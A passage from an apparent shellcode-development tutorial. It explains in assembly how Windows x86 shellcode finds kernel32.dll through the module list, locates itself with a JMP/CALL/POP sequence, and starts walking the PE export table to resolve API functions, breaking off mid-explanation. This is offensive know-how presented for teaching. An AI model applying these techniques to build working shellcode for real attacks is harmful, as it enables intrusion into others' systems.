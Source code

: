 This loop examines each module in the initialization order list. For each module:

1. We grab its base address (stored at offset 0x08)
2. Retrieve a pointer to its name (offset 0x20)
3. Move to the next module in the linked list
4. Check a specific character in the name string (the 13th character, adjusted for Unicode)

The comparison at `[edi+12*2]` is checking for the NULL terminator in "kernel32.dll" (which is 12 characters long). When found, EBX will contain Kernel32.dll's base address—our key to resolving Windows API functions.

## Dynamic Function Resolution: The Heart of Shellcode

### The JMP/CALL/POP Trick for Self-Referencing

Position-independent code must know its own location, particularly to access embedded data. The shellcode uses a classic JMP/CALL/POP sequence to achieve this:

```assembly
find_function_shorten:
jmp find_function_shorten_bnc   # Jump to the CALL instruction
find_function_ret:
pop esi                         # ESI now has address of find_function
mov [ebp+0x04], esi             # Store for later use
jmp resolve_symbols_kernel32    # Continue execution
find_function_shorten_bnc:
call find_function_ret          # Push return address (find_function)
```

This elegant technique:
1. Jumps to a CALL instruction
2. The CALL pushes the address of the next instruction (find_function) onto the stack
3. POP retrieves this address into ESI
4. We store this address for later function resolution calls

This self-referencing approach is a cornerstone of shellcode development, allowing access to code sections without absolute addresses.

### PE Header Navigation: Understanding the Export Table

With Kernel32.dll's base address in EBX, we can locate its export table to find function addresses:

```assembly
find_function:
pushad                          # Save all registers
mov   eax, [ebx+0x3c]           # Get PE header offset
mov   edi, [ebx+eax+0x78]       # Get export directory RVA
add   edi, ebx                  # Convert to actual address
mov   ecx, [edi+0x18]           # Number of functions
mov   eax, [edi+0x20]           # Array of function names
add   eax, ebx                  # Convert to actual address
mov   [ebp-4], eax              # Store for iteration
```

This section navigates the Portable Executable (PE) file format structures:
